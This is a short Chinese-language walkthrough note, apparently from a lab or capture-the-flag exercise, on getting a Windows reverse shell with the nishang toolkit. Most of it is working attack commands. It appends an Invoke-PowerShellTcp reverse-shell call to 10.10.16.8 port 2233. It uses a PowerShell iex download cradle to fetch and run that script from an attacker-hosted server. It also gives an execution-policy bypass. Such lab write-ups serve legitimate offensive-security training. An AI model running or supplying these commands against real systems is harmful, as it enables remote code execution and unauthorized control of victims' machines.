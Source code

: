 ```bash
sudo apt install nishang
```

```
└─$ nishang                          

> nishang ~ Collection of PowerShell scripts and payloads

/usr/share/nishang
├── ActiveDirectory
├── Antak-WebShell
├── Backdoors
├── Bypass
├── Client
├── Escalation
├── Execution
├── Gather
├── Misc
├── MITM
├── nishang.psm1
├── Pivot
├── powerpreter
├── Prasadhak
├── Scan
├── Shells
└── Utility
```

`Invoke-PowerShellTcp.ps1` 用到这个脚本
![](photos/Pasted%20image%2020240116202841.png)
复制到当前目录，然后在文件尾部追加:
```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.8 -Port 2233
```
![](photos/Pasted%20image%2020240116203833.png)
在本地架设 http.server 监听8888 ，同时监听2233端口，然后执行命令
```bash
powershell iex(new-object net.webclient).downloadstring('http://10.10.16.8:8888/Invoke-PowerShellTcp.ps1')

iex : Invoke-Expression,执行包含在括号内的字符串作为 PowerShell 表达式
iex(new-object net.webclient).downloadstring('') : 通过创建的 `WebClient` 实例 调用 `DownloadString` 方法，下载指定URL内容并将其作为字符串返回
```
绕过执行策略
```bash
powershell -ep bypass
```
